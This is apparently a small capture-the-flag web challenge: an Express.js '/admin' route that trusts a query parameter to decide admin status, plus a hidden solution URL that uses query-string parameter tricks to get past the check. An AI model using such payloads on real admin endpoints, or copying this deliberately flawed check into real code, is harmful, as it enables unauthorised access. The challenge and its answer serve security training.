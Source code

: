 # Toxic Admin Check
Can you reach the administration panel?
```javascript
const express = require('express')
const app = express()
const port = 3004

app.get('/admin', (req, res) => {
    const isAdmin = req.query?.user?.isAdmin
    if (isAdmin === true) {
        res.send('Welcome to admin panel!')
    } else {
        res.send('Access Denied!')
    }
})

app.listen(port, () => {
    console.log(`Example app listening on port ${port}`)
})
```
<details>
  <summary>Toggle to see the solution</summary>

  ```
  http://localhost:3004/admin?user[isAdmin]=1&user=isAdmin
  ```

</details>